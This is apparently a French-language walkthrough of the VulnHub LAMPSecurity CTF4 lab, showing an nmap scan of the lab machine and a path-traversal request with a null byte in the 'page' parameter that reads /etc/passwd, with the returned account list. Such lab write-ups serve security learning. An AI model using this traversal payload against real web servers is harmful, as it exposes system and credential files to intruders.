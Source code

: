 # Solution du CTF LAMPSecurity: CTF4

Une nouvelle traque commence
----------------------------

[LAMPSecurity: CTF4](http://vulnhub.com/entry/lampsecurity-ctf4,83/) est le 4ème CTF d'une série de CTFs en rapport avec les failles que l'on trouve souvent dans les web-apps PHP.  

[Le précédent CTF](http://devloop.users.sourceforge.net/index.php?article88/solution-du-ctf-lampsecurity-6) s'était montré très simple, nous allons voir si celui-ci corse un peu les choses.  

Pour info le système est une RHEL 3.  

Approcher la bête
-----------------

```plain
Starting Nmap 6.46 ( http://nmap.org ) at 2014-07-07 08:31 CEST
Nmap scan report for 192.168.1.99
Host is up (0.00017s latency).
Not shown: 65531 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 10:4a:18:f8:97:e0:72:27:b5:a4:33:93:3d:aa:9d:ef (DSA)
|_  2048 e7:70:d3:81:00:41:b8:6e:fd:31:ae:0e:00:ea:5c:b4 (RSA)
25/tcp  open   smtp    Sendmail 8.13.5/8.13.5
| smtp-commands: ctf4.sas.upenn.edu Hello [192.168.1.3], pleased to meet you, --- snip ---, 
|_ 2.0.0 This is sendmail version 8.13.5 2.0.0 Topics: 2.0.0 HELO  --- snip ---
80/tcp  open   http    Apache httpd 2.2.0 ((Fedora))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
| http-robots.txt: 5 disallowed entries 
|_/mail/ /restricted/ /conf/ /sql/ /admin/
|_http-title:  Prof. Ehks 
631/tcp closed ipp
MAC Address: 00:0C:29:28:D9:61 (VMware)
Aggressive OS guesses: Linux 2.6.18 - 2.6.21 (98%), --- snip ---
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: Host: ctf4.sas.upenn.edu; OS: Unix
```

Le fichier *robots.txt* nous donne dores et déjà un nombre important de pistes à étudier.  

A la racine web on trouve un site simple dans le style blog avec différentes sections. On remarque immédiatement le paramètre page.  

On teste quelques remontées d'arborescence et paff ! Le coup est parti tout seul.  

```plain
http://192.168.1.99/index.html?page=../../../../etc/passwd%00&title=Blog

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
--- snip ---
dstevens:x:500:506:Don Stevens:/home/dstevens:/bin/bash
achen:x:501:501:Andrew Chen:/home/achen:/bin/bash
pmoore:x:502:502:Phillip Moore:/home/pmoore:/bin/bash
jdurbin:x:503:503:James Durbin:/home/jdurbin:/bin/bash
sorzek:x:504:504:Sally Orzek:/home/sorzek:/bin/bash
ghighland:x:505:505:Greg Highland:/home/ghighland:/bin/bash
ossec:x:506:508::/var/ossec:/sbin/nologin
ossecm:x:507:508::/var/ossec:/sbin/nologin
ossecr:x:508:508::/var/ossec:/sbin/nologin
```
